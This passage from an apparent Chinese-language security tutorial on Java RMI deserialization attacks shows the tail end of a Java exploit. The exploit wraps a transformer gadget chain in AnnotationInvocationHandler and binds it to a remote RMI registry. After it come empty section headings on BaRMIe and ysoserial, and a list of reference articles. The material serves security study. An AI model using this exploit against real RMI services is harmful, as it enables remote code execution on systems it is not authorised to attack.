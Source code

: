 ```java
                    transformedChain);
            Class cl = Class.forName(
                    "sun.reflect.annotation.AnnotationInvocationHandler");
            Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
            ctor.setAccessible(true);

            Object instance = ctor.newInstance(Target.class, outerMap);

            Registry registry = LocateRegistry.getRegistry(ip, port);
            Remote r = (Remote) Proxy.newProxyInstance(Remote.class.getClassLoader(), new Class[]{Remote.class}, (InvocationHandler) instance);
            registry.bind("liming", r);
        } catch (Exception e) {
            try {
                System.out.print(e.getCause().getCause().getCause().getMessage());
            } catch (Exception ee) {
                throw e;
            }
        }
    }
}
```

### 动态加载字节码



## 借助BaRMIe对RMI进行攻击

## Ysoserial的RMI相关payload分析

## 参考

* https://paper.seebug.org/1091/
* [一次攻击内网rmi服务的深思 (codersec.net)](https://www.codersec.net/2018/09/一次攻击内网rmi服务的深思/)
* [由浅入深RMI安全 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/324692.html)
* [针对RMI服务的九重攻击 - 上 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/7930?time__1311=n4%2BxnD0DyDu730KK40HpADR0Dcmm13DgirYD&u_atoken=94efaa4898ee2e0ab761121cba454999&u_asession=01Fu4pMlk-GmfvC7Knkk222z2BeQPdyZAowrs32a6fFyw_PhSHEFZeMVUY6JYX2vb5JB-YY_UqRErInTL5mMzm-GyPlBJUEqctiaTooWaXr7I&u_asig=05_GgaQvzEB7zO7EbJWoJwGcmNta3X97A9O7ULkw0sV3zOWWuy0lpmkiUAgKTexJFaY6IkhBxoUPYwrGA7V7bv4sN81o_D9tdd4JMBR3l_SnQaFB9MUJv0dNMi-6m1rVNVswxPIJsUlVCgI-RFN5fgki3HIEy1mwtSCYCZ-0bbwcDBzhvSc0Kr8URjOX9Xe4tkcagRx2bZVyIgXq4Kbi-1YfujrXhwMQrtelSRqyqUs-2YGp00FM-Zw3GyrO5hPvUChXVyg8Py7SsCIvJ1wi5QiY8KNy6JoOjsoWf5AIB-DkR6gx6UxFgdF3ARCQ86jS_u_XR5hatHQVh06VuUZ-D1wA&u_aref=kKU%2BOjTsgipLZnjwyRrGf%2F%2F44Gc%3D#toc-16)
* [JAVA RMI反序列化知识详解-安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/204740#h3-9)
* [针对RMI服务的九重攻击 - 下 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/7932?time__1311=n4%2BxnD0DyDu730KGQDCDlhjepQxfxxxYvqPN%3Dx#toc-4)
* [搞懂RMI、JRMP、JNDI-终结篇 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/7264?u_atoken=66db4a29790194af946085e31d265954&u_asession=01Z102eTx-uSlLuAwi0dCOfTlZ1DAFIHNiE6_eOZYhv7v4Ca4wEAWF7mOysAqiJeUnJB-YY_UqRErInTL5mMzm-GyPlBJUEqctiaTooWaXr7I&u_asig=05vF4wabVJwBU0xI2oZn8lp8jaeCvPiy6h51Bf3ExTnarCKPiuyhsRzLohQ7J59WbYPlR19W0CvSTFgSipF_qAhfwBAxgh7ePszgE7Ts8nKZRdCEdz9GH1cMwgEMPkZfLpPwk273ZJHVT0M7dEYHd62EO6vkDvdNuvmpmKgYl3mjvBzhvSc0Kr8URjOX9Xe4tkczwPXd8IUf5OjAcGuKlUcbcq5No9LJZRZv93uLQFxxLwdfXLcRCQaymMSmIYnf9A-S3eRSGCThYuwFP9qLJ1uNnEZmbKI6afDLEq7lsGo1R6gx6UxFgdF3ARCQ86jS_u_XR5hatHQVh06VuUZ-D1wA&u_aref=KJw%2F7%2BnrtKA4gzj11QEfHsZKcnI%3D&time__1311=n4%2BxcD0Dgi0%3DGQDCD9lDlhjU57IKRob2wTTD#toc-0)
* [JAVA RMI 反序列化攻击 & JEP290 Bypass分析 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/8706?time__1311=n4%2BxnD0DcDu0eD5Y40HpDUxYqqsDgGx7w9vxPhD#toc-15)
* [Java安全之RMI反序列化 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/9053?time__1311=n4%2BxnD0DuAiti%3DGkD9D0x05Sb%2BDOWr%3DKTee%3Dvk4D#toc-2)
* [code2sec.com/CVE-2017-3241 Java RMI Registry.bind()反序列化漏洞.md at master · bit4woo/code2sec.com (github.com)](https://github.com/bit4woo/code2sec.com/blob/master/CVE-2017-3241 Java RMI Registry.bind()反序列化漏洞.md)

